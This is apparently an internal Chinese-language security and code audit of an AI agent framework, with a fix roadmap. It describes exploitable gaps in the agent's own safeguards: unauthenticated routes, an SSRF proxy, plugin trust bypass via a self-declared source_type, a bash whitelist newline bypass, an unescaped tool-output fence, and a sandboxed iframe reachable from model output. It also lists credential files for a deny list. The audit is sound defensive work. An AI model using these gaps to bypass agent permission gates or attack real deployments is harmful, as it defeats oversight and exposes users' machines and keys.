**机制**：glob/grep 均以 **ripgrep 子进程**为核心（非自造轮子）：Glob 贪婪 pattern 返回目录摘要、命中≥40 折叠、60s TTL 缓存、越界路径 fuzzy 纠错（`glob_tool.py:197/260/316/363`）；Grep 有 content/files/count/**symbols** 四模式（symbols 走 codeindex，`grep_tool.py:673`）；Read 有 0.25MiB 预检+25k token 上限、二进制黑名单、unchanged-stub 去重、单符号读取+pack 上下文（`file_read_tool.py:40/447/364/425`）。**Bash 透明路由实锤**：`bash_tool/dup_redirect.py` 纯函数分类（cat→Read、rg/grep/findstr→Grep），`tool_registry.py:570 _route_bash` 透明执行——安全不变式：只在 Bash 已 ALLOW 后换执行器，目标工具仍走完整三态权限+审计；目标 DENY 回退原 Bash。**spill 在用**：registry 级 16000 字符输出预算（`tool_registry.py:83,178`，Read/Bash 豁免防读回环）溢写 `~/.xeyo/spill/<session>/`（O_EXCL+0600，7 天清理）。WebFetch SSRF 门完整（scheme 白名单/私网/metadata IP/DNS 逐地址复查/每跳重定向复检/200KB 流式截断，`web_common.py:19-73`）；WebSearch 四级引擎降级（SearXNG→Brave→Bing∥Mojeek 竞速→opt-in DDG）。SendToWeChat 纯出站薄壳委托 `remote_deliver`，策略 `outbound_ask`。

**优点**：输出预算三层统一（工具自截断→registry 预算+spill 保底→豁免清单）；错误信息对模型友好度罕见地高（Did-you-mean/候选清单/行动建议）。

**设计不足**：路径辅助函数**三处重复**且 glob 版行为不同（`fileio/paths.py` vs `glob_tool.py:151-194` vs `grep_tool.py:54-97`）；路由前置 `_routed_target_in_workspace` 对无显式 path 的命令恒 True（`tool_registry.py:62-63`）→ 相对越界路径靠 Read 的 DENY 才回退，多一跳白跑；**DNS 重绑定 TOCTOU**（校验解析与实连解析分离）；`stub.py` 死代码、glob 统计/缓存清理挂点未接线；WebSearch 用正则解析搜索引擎 HTML（结构性脆弱）；glob 缓存键不含 ignore 配置（60s 陈旧窗口）；TodoWrite 的 `<todo_list>` 标签内嵌 content 与结构化 `todos` 字段双通道。

### 6.2 认知层深挖（memory/ 剩余）

**机制压实**：C2 摘要三件套分工——`summarize.py` 提取素材（错误栈首尾窗/grep 统计/取值签名）、`fidelity_segmenter` 无损原子切分（断言 Σweight=|M|）、`citation` 提供引用锚。**`memory.journal` ≠ rewind OperationJournal**：它是多 agent 工作区变更流水（`~/.xeyo/journal/{wsid}.jsonl`，写者 `write_store.record_change`，读者 scheduler 写前注入 `format_changes_for_agent` 防"瞎"（`scheduler.py:347`）+ journal_query_tool）。蒸馏实锤：candidates 入库精确 casefold 去重/hit_count 递增 → nightshift `run` 做墓碑/过期/**O(n²) 冲突消解**（same_topic 判据=type+title 相等，而 title=content 前 80 字，`governance.py:114`）→ 逐条独立晋升为 type="feedback" note，confidence 封顶（user=1.0/agent=0.6/diff=0.85）；workspace_diff 做 git diff 佐证（只加分不降权）。冻结边界真相在 `working.py`（`compact_cursor/c1_frozen_until` + 只前进断言），compact.py 是纯 Apply——职责分界正确。开关矩阵 10 个由 `memory_switches` 单一权威管理（settings.memory，env 不参与）。

**设计不足**：
1. **蒸馏无合并/改写/质量评测**：每条 candidate 独立成 note（`nightshift.py:524-533`）、type 恒 feedback 丢失 user/project 区分、正文质量零把关——L4 重复事实堆积直接恶化检索（与 edges 死代码同级的结构性债）。
2. **失败 candidate 永生**：leftover 原样回写无 TTL（`:541`），每轮全量重扫。
3. **开关双轨残留**：nightshift 5 个调参键直读 `os.environ`（`nightshift.py:60-85`）未入注册表——GUI 面板管不到的影子开关。
4. **instruction 提案闭环缺 applied 端点**：`/rule` 写入后 proposal 不标 applied/ignored，`instruction_proposals.jsonl` 只增不减；hit_count 只计精确重复，改写措辞不计（`instruction_maintain.py:303-308`）。
5. journal `_tail_seq` 每次写重读全文件（`journal.py:120-134`）+ 索引行全量副本（存储×2）；`cache_profile.py` 是注释占位（字段与价格硬编码 docstring，与 simulator/cost_model 双份真相）；working checkpoint 摘要弱一致（`_from_dict` 仅空时回填，可静默分叉）。

### 6.3 codeindex / usage 账本 / 评测基础设施

**codeindex**：三层——`symbols.py` 按需符号解析（Python ast + TS/JS tree-sitter 可选依赖，缺装降级正则并标记 `approximate`；内容哈希缓存键规避 Windows mtime 粗粒度）；`graph.py` import 图+十层架构折叠（60s TTL，供 /workspace 图）；`cgraph.py` 是 **v7 证据门专用的 sqlite 原型**（头注释明示未接工具面）。消费点：grep symbols 模式、Read symbol 定位、git touched、/workspace 大纲。评级 **B**：symbols 层生产级，cgraph 近似调用边（`name(` 文本匹配）噪声大但被纪律约束。

**usage 账本**：主账本每请求一条（provider/model/session/cache_hit/cost_cny，成本官方金额优先、峰谷价目兜底），c2/calibration/multi_agent 三条旁路物理分离"避免污染计费统计"；`combine` 厂商数据权威+本机兜底。**设计不足**：`DeepSeekModelClient` 全文零 ledger 调用（已核实）——`query_engine.py:1273-1275` 的 deepseek 分支路径成**账本黑洞**；subagent 用量在 multi_agent.jsonl（无成本）与主账本双轨、per-agent 成本归因断链；账本查询全量扫描+80K 行静默截断。

**评测设施（评级 B+，本审计最大惊喜）**：evals 六维（bfcl 函数调用/humaneval+mbpp 代码/retrieval/drift 漂移/block_ablation 块消融/mmau_local 综合）+ 4 个反作弊 shadow（盲审/污染门/严格环境/报告口径，默认关）；`memory/simulator` 是 C2 决策参数的离线推演器（与生产共享单点估参定义，避免口径漂移）；scripts 有 v61_evidence_gate 对 B1/B2/B3 逐项采纳裁决——**"数据准入"纪律真实存在**（cgraph 就是"先过证据门、赢了才准接工具面"的实例）。缺口：无 CI 接入、drift/ablation 结果无自动裁决、shadow 默认关意味着诚实度检查未常态化。

### 6.4 CLI / server 边角 / 持久化边角

**CLI 三模式**：in-process（`chat_cmd` 直建 QueryEngine）/ attach（HTTP SSE 客户端）/ serve（薄壳，env 传参调 server.__main__）。无 TTY 时权限 fail-closed（`interact.py:85-91`）；slash manifest 单源复用（CLI/GUI 无双源）。

**设计不足**：
1. **【高危·已核实】HTTP 面无服务端凭据**：`Authorization Bearer` 经 `deps._extract_bearer` 提取后直接作为模型供应商 key 使用（`chat.py:632`）——服务器自身无鉴权中间件；`serve` 允许 `--host 0.0.0.0`（`serve_cmd.py:27`）→ LAN 内任何人可借你的服务器在本机 cwd 执行工具。与 §5.2 未鉴权路由叠加后，远程利用面完整。
2. **record_transcript 无 fsync + 竞态（已核实）**：`_write_batch` 仅 `f.flush()`（`:148`）；`record_transcript_sync` 直接写与 writer 线程的 `_maybe_rotate` 存在 append/rotate 竞态（`:263-271`）→ 崩溃窗口丢会话尾部（index.py 强制 fsync、journal 默认关、transcript 不 fsync——**同仓三种持久化策略并存**）。
3. **rwlock 取消泄漏窗口**：`_Release.__aexit__` 中 release 再被取消则 `_readers` 永不下降 → 写者永久饿死（`rwlock.py:26-30`）；`max(0,...)` 掩盖 double-release；无 cancel 路径测试。
4. attach 断线只打红字不重连不提示（`attach_cmd.py:199-200`）；CLI 渲染双实现（`render.py` vs `attach_cmd.py` 各写一套 delta/tool 摘要）；`set_permission_mode` 等是进程级全局（`chat_cmd.py:87-90`）→ server 进程内多会话互踩。
5. `xml_tool_call` 畸形块永久滞留 buffer（`:103` 无闭合不吐）、参数值含 `</tool_call>` 字面量提前截断（`:24-31`）；ws_index 无 compaction；config_store 手写 TOML 转义不全；serve 靠环境变量传参可互相污染。


## 七、第四轮收尾（server 门禁矩阵 / 测试执法核实 / Tauri Rust / 工具清尾）

### 7.1 server 全路由门禁矩阵（专项收口二轮 C7）

`require_loopback` 判定（`local_gate.py:21-33`）：`XEYO_ALLOW_REMOTE_CONTROL=1` 直接放行（`:23`）→ `request.client.host ∈ {127.0.0.1, ::1, localhost, testclient}`（`:12`，**testclient 出现在生产白名单**）→ 否则 403。服务端自身无鉴权中间件（`app.py:204-229` 仅 CORS+PNA）。

| 路由面 | 门禁 | 证据 | 危险级 |
|---|---|---|---|
| chat / slash / slash-parse / plugins(install/update/remove) / skills / mcp 视图与 op / extensions GET+POST / control 全部（interrupt/permission/ask/plan/grants/rewind-gc/settings）/ goals / jobs / sessions 全部 / rewind 全部 / workspace 的 terminal-exec 与 policy-bash | ✔ loopback | `chat.py:84`、`commands.py:44/85`、`plugins.py:106/152/180`、`skills.py:35`、`mcp.py:73/146`、`extensions.py:67/89`、`control.py:42-281`、`goals.py:27`、`jobs.py:16`、`sessions.py:44`、`rewind.py:30`、`workspace.py:61/450` | 高（install/mcp-op/permission-resolve/plan-approve 为高危写面） |
| **workspace 其余 18 端点**（GET/POST /v1/workspace、entries、file 读/写/删/stat/diff、graph、outline、map/explain、search、journal、peers、git/*） | ✘ 全无 | `workspace.py:84-428` | **高**（DELETE 支持 `recursive=true`，`:171-181`） |
| **audit.py / memory.py**（审计流水、记忆列/检索/强制 compact） | ✘ 全无 | `audit.py:14-25`（注释自认 β3 再加）、`memory.py` | **高**（敏感数据外泄+远程触发写） |
| **media.py** 三端点（媒体读/图上传/文本附件） | ✘ 全无 | `media.py`；POST /v1/files 返回服务器绝对路径 `path: str(dest)`（`:91`） | 中 |
| **usage.py**（models/usage/balance 代理） | ✘ 全无 + `X-Base-Url` 任意 → 开放 SSRF 代理面（带 Bearer 向任意 URL 发请求） | `usage.py:27/79/92` | 中高 |

**结构性根因**：门禁存在三种风格——路由级 Depends（chat/goals/jobs/sessions/rewind）、逐端点手写（control/skills/extensions 等）、完全没有（workspace/media/usage/audit/memory）——漏网即源于此。另有 `_ = authorization` 假鉴权位（`skills.py:34`、`plugins.py:86/105`：收集 Bearer 却丢弃）；`mcp.py /op approve`（`:181-184`）一次调用即写 trust 落盘放行整个 server 工具面。

### 7.2 测试与提交门执法核实（验证 AGENTS"机器执法"声称）

**规模**：`python/tests/` 235 文件 / 40,749 行 + extension 15 文件 + simulator 12 + plugin 6 ≈ **268 文件 / 45k 行**；memory ≈33、tools ≈20、rewind 15、mcp/extension 21、workspace 9、permission 7、multi_agent 6。

**真执法（强度高）**：指纹 v2 六项含伪装字段免疫与 grant 回环（`test_mcp_fingerprint_v2.py:64-148`）；**DENY 压过 grant**（`:137-148`）+ write_scope 拒绝（`test_permission_grants.py:162-169`）+ 远程会话跳过 grant（`:172`）；schemas 冻结逐字节比对（`test_freeze_invariants.py:125-156`，但仅 push/pull/attach 路径）；reconcile digest 幂等；网关三态 fail-closed；rewind hotpath 11 用例（幂等键/原子重写/脏跳过）；bash 路由 Phase 分档 + spill 8 用例 + budget 32 用例。

**声称与现实的差距（每条已核实）**：
1. **提交门不存在**：`.git/hooks` 仅 sample、无 .husky、gui/package.json 无 prepare——"tsc+vitest+pytest 全绿才 commit"纯靠人跑 `一键测试.cmd`。唯一真执法是 `.github/workflows/ci.yml`（pytest `not live` + slash manifest drift + gui/cli typecheck），不推远程即失效。
2. **xfail 挂账 = 0**：全仓 grep xfail 零命中、无 `xfail_strict`——"既有失败必须显式 xfail"机制不存在，实际手段是 bat 里 **deselect 两个 t9 失败文件**（`run-pytest-p0a.bat:12-13`），连挂账痕迹都没有。
3. **P0 集合碎片化**：8+ 个 bat 各自硬编码文件清单，无 p0 marker/单一权威定义，清单漂移无一致性测试。
4. **T_now 执法是纯离线的**：测试锁"登记数≤22 + 装配点↔登记双向一一对应"（`test_t_now_block_registry.py:44-66`），但 `_tag_block` 运行时只 skip+append 无注册名校验（`pre_llm_inject.py:831-837`）——绕过即静默失效，下次跑测试才红。
5. **list_changed 破坏冻结无测试锁**：`test_freeze_invariants.py` 不覆盖 list_changed 路径、`test_mcp_client_t11.py:533-560` 验证 generation 替换但不比对 schemas 逐字节——三轮发现的冻结红线缺口至今无锁。
6. **测试护住死路径**：scheduler 无生产调用方却有 50+ 用例高强度覆盖（`test_multi_agent_p1.py:47-198`）——绿测试给"已接线"假象。

### 7.3 Tauri Rust 侧（完全未审的新面）

**机制**：14 个自定义 command（`lib.rs:595-610` 注册）：pet 组 7 个 + `save_text_file/reveal_in_folder/create_directory/git_init/git_clone/list_git_repos/get_backend_port`；无自定义 ACL（`capabilities/default.json:5` 只约束插件），**main 与 pet 两个 webview 均可调用全部 command**。端口发现：读 `<py>/../.xeyo/backend_port` JSON，失败回退固定 8000，spawn 恒设 `XEYO_HTTP_PORT=8000`（`lib.rs:309`）。

**设计不足**：
1. **端口劫持**：`wait_health` 只认响应含 `"200"` 或 `"\"ok\""` 字符串（`lib.rs:580`，已核实）——本机任意进程占住 8000 回 200 即接管 GUI 全部流量（含 `Authorization: Bearer <apiKey>`）；portfile 不复验 pid 归属。
2. **fs/git command 无路径边界**：`abs_path` 仅校验非空+绝对（`lib.rs:428-438`）——`create_directory/save_text_file/git_clone` 可写全盘任意路径；`reveal_in_folder` 零校验且 `raw_arg` 拼 `/select,"path"`（`:393`）可被引号破坏参数边界；pet 窗口同权 → pet 遭 XSS 即全盘写。
3. **端口文件驱动任意进程杀伤**：守护不健康时按端口文件里的 pid `taskkill /T /F`（`lib.rs:201/217`，已核实）——端口文件是任意进程可写文件，可诱导杀无关进程树。
4. **pending 单槽并发串台**：permission/ask/plan 是全局单槽（`chatStore.ts:36`），两会话并发 pending 时后者覆盖前者、前者面板无 trace 消失。
5. apiKey 明文 localStorage（`settingsStore.ts:809/836`）；todo 乐观 snapshot 在 tool_result 为 error 时不回滚（`streamSendSlice.ts:522`）；spawn stdout 日志线程被丢弃（`lib.rs:332-340`）排障断链；`process_alive` 用 pid 子串匹配（`:168`）有误判面。

### 7.4 工具与存储清尾

**机制**：file_edit 纯字符串替换原语（多候选歧义即拒 errorCode 9 + 弯引号归一化匹配 + 引号风格保留 + 删行尾换行自动剥离，`text.py:103-196`）；编码/换行规范（BOM UTF-16-LE 识别、LF 归一、写回还原，`text.py:31-74`）；stale 冲突给出"行区间摘要 + 跨会话归因（session_presence owner_of）+ 重读指令"（`conflict.py:93-110`）——**多 agent 可调试性一流**。system_prompt 左段锁死顺序且 date/model/工具名刻意不进（`system_prompt.py:65-71`，KV 纪律严格）；`MessageStore.as_api_messages` 是薄 IR（narration 剥离点在此），形状转换散落下游双形状 reader。**四轮修正**：主会话写工具同样注入 WriteStore（`session_pool._build:500` agent_id="main"），一轮"主会话直通旁路"说法作废——WriteStore 是全部结构化写的统一缓冲。

**设计不足**：
1. **NotebookEdit 缺 write_scope 拒写门禁（已核实）**：file_edit 有"无 store 且 scope 激活即硬拒"兜底（`file_edit_tool.py:152-154`），notebook_edit 零此检查（grep 0 命中）且用裸 open 不走 BOM/UTF-16 处理——多 agent 写隔离唯一旁路。
2. **Memory update/forget 在事件循环同步重写索引**（`memory_tool.py:522/542`，与 `_execute_write` 的 to_thread 不一致）+ search top_k 无上限——大 memdir 会冻结所有会话共享的 loop。
3. `as_api_messages` 形状契约隐式（docstring 声称 OpenAI 配对但 assistant 不转 tool_calls）——投影正确性的地基靠注释约定。
4. fileio/paths.py 正本 73 行太薄，glob/grep 仍留无 cwd 注入的私有副本（行为漂移未钉）；execute 内 store/非 store 死分支逐字节相同（`file_write_tool.py:407-411`）；`session_pool.py:497` 与 `:537` 注释自相矛盾；AskUserQuestion 丢 option description（`ask_user_question_tool.py:34-43`）；journal 无 session_id 的旧行跨会话可见（`journal_query_tool.py:114`）。


## 八、第五轮收尾（ilink 密码学 / 插件供应链 / GUI 注入面 / bash 执行器）

### 8.1 ilink 密码学与消息认证
- **媒体加密**：AES-128-**ECB**+PKCS7（`crypto.py:187`），无完整性校验（无 GCM tag/HMAC）；双实现（cryptography 库 + 150 行手写纯 Python AES 兜底，`crypto.py:13-157`，有时序泄漏面，有交叉测试兜底）；密钥 `secrets.token_bytes` 随文分发（协议约定，仅防 CDN 侧扫描）。
- **信令认证**：无请求签名/nonce/时间戳（`client.py:35-46` 仅静态 Bearer + 随机 UIN），防篡改全赖 TLS；token 明文落盘无 TTL/刷新/撤销（`store.py:29-32`）——**迁移 keyring+chmod600 修复成本 <1h，性价比最高**。
- **seen 去重**：前缀 `[XEYO]`+精确/归一+≥12 字符子串启发（`seen.py:113-117`）——**用户引用 bot 原文/常见短语会被确定性误杀**；且 seen/outbound 明文留存 840 条对话原文（应哈希化，~10 行修复）。远程 token 单因子静态但用了 `compare_digest`（`auth.py:51`）。

### 8.2 插件供应链（发现 P0）
- 链路：本地文件市场注册表（无远程拉取）→ github `git clone --depth 1` 到暂存区（剥离 GIT_* env、180s 超时，`plugin_fetcher.py:227-282`）→ **校验仅 manifest pydantic + min_xeyo，无哈希钉扎/签名/commit pin**（ref 是可变分支）→ `copytree` 到 `.xeyo/plugins/<name>` → lockfile 登记含装后自算 computedHash。
- **P0·信任劫持（已核实）**：`_plugin_active` 用 manifest 自声明的 `source_type` 判定是否走信任检查（`loader.py:92`）——GitHub 安装的插件在 plugin.json 写 `"source_type":"local"` 即免批直进 MCP/hooks 注册（安装=引入任意代码执行面：MCP server 任意 command/env + hooks 子进程脚本）。
- **P1**：`name=".."` 过 name 正则且 `_copy_install` 无 confine（`plugin_fetcher.py:188`）→ 安装路径逃逸+rmtree 误伤（卸载侧有 confine，防护不对称）；信任键仅 `name` 不绑定 `declaration_hash`/source，update 免重批（漂移仅 warning）。
- **P2**：安装无用户 ASK 语义（deny 是装后回滚）；市场白名单只过滤浏览不过滤安装（`plugins.py:216-221` vs `_do_install`）；skill_store 弱于 plugin_store（非原子写、同名覆盖、锁文件可指任意路径）。

### 8.3 GUI HTML/Markdown 注入面
- **主聊天管道安全**：自研 rehype 白名单 `rehypeSafeHtml`（script/iframe 连子树丢弃、属性只留 style/open）、`javascript:` 链接降级为 span、高亮 Worker 内 Prism 自带转义、tool_result 走 React 文本节点、Mermaid strict——这条链做得好。
- **最大注入面在 browser 预览面板**：全仓唯一 iframe 的 URL 无 scheme/域名校验（模型 xy.ui `browser` action 直达，`dispatchXeyoUi.ts:93`），iframe `sandbox` 带 **allow-same-origin**（`BrowserPreviewPanel.tsx:347`）+ frame-src 含 `data: blob:` → 模型输出可构造可执行上下文。`shell:allow-open` 无 scope + `openExternal` 任意 URL（跨轮未修）。
- localStorage 明文存 apiKey/ilink token/未决回溯的会话文本片段（`rewindV3Store.ts:133` 新发现）。

### 8.4 bash 执行器子模块（含"沙箱"结论修正）
- **修正**：Windows Job Object 内存限额（默认 512MiB，`win_job.py:163-171`，已核实）+ KILL_ON_JOB_CLOSE 树终止**真实存在**——"沙箱纸面化"应改述为"**资源护栏有实体，隔离面（文件/网络/CPU/进程数）纸面化**"。
- 后台作业晋升设计有亮点（replay_and_attach 原子换槽防丢行、pwsh7.4.6 下载 pin 官方 hashes fail-closed、cmd_compact"绝不丢 traceback"护栏）；但晋升 job 无超时、与 abort 解绑、产物绕过 rewind/审计（§TL;DR #31）；POSIX 无 setsid 只杀根；Job assign 失败静默无日志（`win_job.py:44-52`）；truncate 全文无条件落盘无清理。

### 8.5 覆盖率收口
全仓 346 个运行时 `.py`（排除 tests/scripts/evals/simulator/pycache）+ gui/src 接缝与状态层 + cli-ts 全部 + Tauri Rust + 测试执法，已全部覆盖；未逐行读物仅剩各工具的 `prompt.py` 文本、`qr_png.py`/`screenshot.py` 级别的琐碎实现——审计至此**无实质性遗漏**。


## 九、第六轮查漏（prompt 文本 / 评测深挖 / GUI 剩余组件）

### 10.1 工具 prompt 文本与琐碎模块
- 22 个 `tools/*/prompt.py` 共 321 行 ≈ 3.3-4K tokens（每轮常驻 schema 约 2.5-3K）；**抽查未发现"声称≠实现"漂移**——bash prompt 诚实未声称沙箱、glob 缓存/重试/摘要均有实现、memory prompt 刻意用占位符避免绝对路径进 schema。小瑕疵：screenshot prompt 低估自身能力（漏说 monitor 参数）。
- 琐碎模块质量普遍高（diff_preview/excludes/rg_subprocess 的 `--no-config` 防配置注入/mirror 游标兜底），真问题三处：**memdir `touch_last_used` 读热路径全量重写 note 文件（写放大）+ `find_note` O(N)**；`vision_media.py:144-161` 死代码（恒假分支 + PDF 双开）；filehelper/screenshot 纯 Python 逐像素降采样（Pillow 已在依赖中）+ 截图落仓库根。
- 流程性建议：prompt 与实现双写魔法数（45s/60s/8192/120）无单一事实源，靠人工同步。

### 10.2 evals + simulator 内部质量（评级从 B+ 上调至 A-）
- **三大疑虑全部排除（直读核实级）**：simulator 常量单点属实（`state_model.py:8-11` 直接 import 生产 `engine.compact` 与 `memory.token`）；**生产与模拟器共用同一 `decide()`**（`runtime.py:1423` import simulator.decision）；ρ̂ 校准闭环真实存在（observe → ledger → calibration.scan_rho → params_overlay.json → runtime `load_params()` 消费）。
- 判分确定性扎实：bfcl 纯结构比较无 LLM judge、`__unparsed__` 剔除；humaneval/mbpp 用 `sys.executable -I` + 20s 超时 + 判分测试后置（print-expected 作弊结构上不可行）。
- **硬伤三处**：① **items.jsonl 跨模型混染**（`bfcl_lite.py:393-397` 汇总按 id 合并全部历史行、无 model 过滤，已核实）——换模型重跑即混合成绩，修复一行；② **反作弊模块零接线**：blind_audit/pollution_gate 仅 env 开启且 grep 无任何 eval 主流程调用——现有分数全是"无盲审无污染门"的裸结果；③ retrieval_bench 自证（seed note 正文含 query 关键词、仅 5 例、无 MRR/nDCG）——是"管道存活检查"而非召回测量。次要：replay 编排层是 runtime.send 的手工镜像（decide 共享但闸门编排不共享）；mmau 命名通胀（内部 pytest 通过率）；ablation 地面真值弱（`contains_any:["22"]` 子串误匹配、N=10）；evals/client 硬编码价目与 usage/pricing 双口径。

### 10.3 GUI 剩余组件 + CLI 杂项
- diff 渲染：fill 模式全量 DOM 无虚拟化（万行 diff 卡死预览，消息流已有 VirtualRoundList 标准不一致）；`extractDiffFence` 只取首个 ```diff 围栏，多文件 patch 展示错位。根因一致：**diff/todos 均从 result 文本启发式解析，后端未给结构化载荷**。
- EditableMarkdown：删空正文回写被跳过静默回滚（`:92,147`）；富块旁编辑的 htmlToMarkdown 无损性未验证。
- 命令面板文件搜索每次防抖调 `setWorkspace(root)` 全局切换后端工作区——多 space 互踩面；WorkspaceImg 模块级 Map 缓存 data URL 无上限；apiKey 明文 localStorage（四轮已知，本轮确认 profile 双拷贝同步链脆弱）。
- CLI：`http_api.py:30` session_id 未 urlencode 直拼 URL；`cmd_rm` 删会话无确认。
- 正面：profiles 切换/授权面板/media_ref sha256 校验/媒体懒加载均干净。

### 10.4 收官声明
六轮累计 27 个精读代理。覆盖：引擎七层全模块 + server/model/channels/壳层/tools 全家族（含 prompt 文本与执行器子模块）/评测与模拟器深挖/CLI/Tauri Rust/测试执法/GUI 组件抽样。未逐行读物仅剩：各 `prompt.py` 之外的纯文本资产、图标/静态资源、gui/src 未抽样到的长尾展示组件（数据链路已由 stores 层覆盖）。审计闭环。


## 十、优先级路线图（六轮汇总）

**P0+（五轮新增）**
0o. **插件信任判定修复**：`_plugin_active` 改用安装期真实 source_type（lockfile/安装上下文），不信 manifest 自声明（`loader.py:92`）；`_copy_install` 对 name 加 confine 并禁 `.`/`..`；信任键改 `(source, declaration_hash)` 且更新换 hash 需重批。
0p. **后台 bash 作业收口**：晋升 job 接收 timeout；产物/日志写文件纳入 rewind 索引或至少审计；Job assign 失败告警可观测。
0q. **预览 iframe 收口**：URL 白名单（localhost + 用户确认）、移除 allow-same-origin、frame-src 去 `data: blob:`；`shell:allow-open` 限 http/https + 工作区白名单。
0r. **凭据与留存最小化**：bot_token 迁移 keyring/DPAPI + chmod 600；seen/outbound 哈希化替代明文留存；GUI localStorage 的 apiKey/ilink token 移出或加密。

**P0+（四轮新增，最高危插队）**
0k. **NotebookEdit 补 write_scope 拒写兜底**（对齐 `file_edit_tool.py:152-154`），堵多 agent 写隔离唯一旁路。
0l. **Tauri 三件事**：wait_health 改为校验 pid+挑战应答（防端口劫持）；自定义 command 加 per-window ACL + fs/git 路径边界；taskkill 目标改为自 spawn 记录的 pid 而非端口文件。
0m. **测试执法补课**：引入 pre-commit gate（typecheck+vitest+pytest 子集）；建立 xfail(strict) 挂账规范（deselect 必须带 issue 注释）；`_tag_block` 加运行时注册名校验；`test_freeze_invariants` 补 list_changed 路径逐字节比对；pyproject 定义 `p0` marker 收编全部 bat 清单。
0n. **server 门禁统一为"默认 deny + 白名单豁免"**：media/usage/audit/memory 纳入门禁；usage 的 `X-Base-Url` 代理改白名单域名；删除 `testclient` 生产白名单项与 `XEYO_ALLOW_REMOTE_CONTROL` 粗粒度全开；清除 `_ = authorization` 假鉴权位；`mcp /op approve` 拆为逐工具确认。

**P0+（二轮新增，安全高危，建议插队最前）**
0a. **server 门禁统一**：`workspace/audit/memory` 等路由挂 router 级 `require_loopback + api_key` 依赖（现有 2/20 覆盖率），并把 `workspace_fs` 直写收敛进引擎权限/rewind/审计（或先降级为只读 + 显式开关）。
0b. **channels 发送者白名单**：ilink/filehelper 绑定 owner 身份，非白名单消息一律拒绝并审计；远程 `/allow` 校验 actor；出站 `final_text` 过脱敏 + 文件外发白名单。
0c. **model 层异常归一**：httpx 流中异常 try/except 归一为 `ProviderError/NetworkError`；`classify_llm_failure` 纳入 httpx 超时类型；deepseek 补 `_record_usage_safe`。
0d. **context_limit 强制注入**：`build_default_engine` 缺失即报错或保守默认 + 字符硬顶兜底触发 C2。
0e. **bash 换行绕过修复**：`_COMPOSITE_RX` 纳入 `\n`、`_tokenize` 归一化多行命令后再走白名单。
0f. **fence 转义闭合标签**：inner 中 `</tool_output>` 占位替换。

**P0+（三轮新增，与二轮同级高危）**
0g. **server 执行面加服务端凭据**：chat 等执行端点要求独立的服务器 token（现状 Bearer=供应商 key），`--host 0.0.0.0` 时强制要求 token 或直接禁止。
0h. **record_transcript 补 fsync（与 index 同策略）+ rotate/append 加锁**——会话尾部丢失窗口真实存在。
0i. **DeepSeekModelClient 挂账本**：把 `record_from_openai_usage` 挂到协议/流消费层而非客户端实例，消除账本黑洞。
0j. **rwlock cancel 路径修复+测试**：release 不在 await 中做可取消点；补取消注入用例。

**P1+（三轮新增）**
- tools：路径辅助三处合并到 fileio/paths.py；WebFetch pinned-IP 防 DNS 重绑定；删 stub.py；glob 缓存键纳入 ignore 配置。
- 认知：蒸馏加主题合并与 candidate TTL；nightshift 影子 env 键收编进 memory_switches；instruction proposals 补 applied 端点；journal `_tail_seq` 改增量 + 索引瘦身；cache_profile 占位落地为单一数据源。
- 评测：mmau_local + drift_judge 正则层绑 CI 必跑；live 基准强制开 shadow 反作弊模块。
- CLI/边角：attach 断线重连提示；渲染层合并；`set_permission_mode` 改会话级；xml_tool_call 流末 flush 未闭合块；config TOML 转义补全；ws_index compaction。

**P1+（六轮新增）**
- 评测卫生：items.jsonl 加 model 字段并在汇总过滤（防跨模型混染）；bfcl/humaneval/mbpp 主流程接入 blind_audit/pollution_gate；retrieval_bench 换真实查询集 + 加 MRR。
- 正确性：todo 恢复优先级显式化（input vs 旧 result 的语义写成测试）；GUI error tool_result 不再回退渲染成功 todo 快照；CLI `http_api` urlencode + `cmd_rm` 加确认。
- 性能/体验：fill 模式 diff 虚拟化；后端为 diff/todos 提供结构化载荷（终结前端三层启发式解析）；WorkspaceImg 缓存加上限；memdir touch 改异步批量。
- 功能：ilink QR 换成熟库或升 version 上限（登录 URL >106B 即失败）。

**P0（一轮既有）**
1. 决策层：加 turn 边界轻量自检/验证钩子（对照 goal/todo 与工具结果），失败注入重规划；把"完成判定"从模型自觉变成显式一步。
2. 控制层：把已实现的 Scheduler/配额接到生产（或明确砍掉），统一并发上限单点，给子 agent 加墙钟超时（现只有轮次上限）。
3. 安全层：Bash grant 去掉"前缀 token"放大（改为命令模板 hash 或落到 read-only 白名单语义 + 会话级二次确认）；沙箱在无法容器化前，至少加进程级 rlimit/网络代理出口控制并写进审计。
4. 容错层：WriteStore 写路径接入 rewind journal（让多 agent 写入可回滚）；消费 `incomplete_tool_uses` 或在崩溃恢复时用 hydrate 修复统一收口。

**P1（止血，防坏味道扩散）**
5. 能力层：裁决"mcp__ 直挂 vs 网关"双路径（建议 MCP 全部经网关单路径执行并计量）；list_changed 改为"标注 hidden 而非改数组"守住冻结；slash 命令收敛到 `tool_registry.run` 复用权限/审计。
6. 安全层：审计加 HMAC/写权限隔离 + 查询鉴权 + denied 告警通道；redact 递归化。
7. 容错层：JSONL 保留/轮转策略 + 默认开 blob GC（先 dry-run 观察）；统一 journal/index fsync 策略。
8. 装配层：登记表运行时校验（>22 即抛错/警告）；把 max_tokens 预算做成装配层一等输入；env 块内容进 UsageEvent 归因。

**P1+（二轮新增）**
- 容错：restore worker 全程持 `WorkspaceLock`（堵 §5.1-2 互锁洞）+ 壳层 Composer rewind 守卫；bash_tool 写目标纳入 rewind 索引；运行中 rewind recovery 看门狗。
- 安全：AskUserQuestion 补审计 + actor 鉴权（并与权限 ASK 合并为一套面板）；密钥表补 `.netrc/.git-credentials/.kube/config` 等；嵌套 `.git` 升 DENY；`XEYO_ALLOW_PROTECTED_METADATA` 放宽落审计。
- 装配：token 计量统一走 `memory.token.token_len`（消 chars/4 双口径）；C2 三分支收敛为单一决策函数；blob 缺失 hydrate 告警；`_c2_role_share`/utf-16 注释漂移修正。
- server：CSRF/Origin 校验 + 全局限流与 body 上限；SSE 单一写者约束。
- 壳层：CLI 补超时提示/防误触（需显式选择而非单键）/断流 reattach；GUI↔CLI 抽共享事件 schema；Tauri frame-src 收敛 + `shell:allow-open` 限工作区白名单。
- channels：媒体元数据过 fence；bot_token 加密/0600；filehelper DOM 选择器失效告警。

**P2（增强，中长期收益）**
9. 认知层：检索引入语义召回（embedding 旁路先行，AB 验证后并入）或至少"自动召回 top-k 指针块"；遗忘加时间衰减；技能加"经验→候选技能"习得回路（复用 nightshift 蒸馏管线的形态）。
10. 决策层：Goal.pending_complete 稳定 N 轮后引擎自动收口（合成验收），失败自动退回 blocked 触发人工。
11. 控制层：跨会话文件级冲突检测（在 workspace_lock 上细化）；子 agent 隔离升级（worker 进程池）。
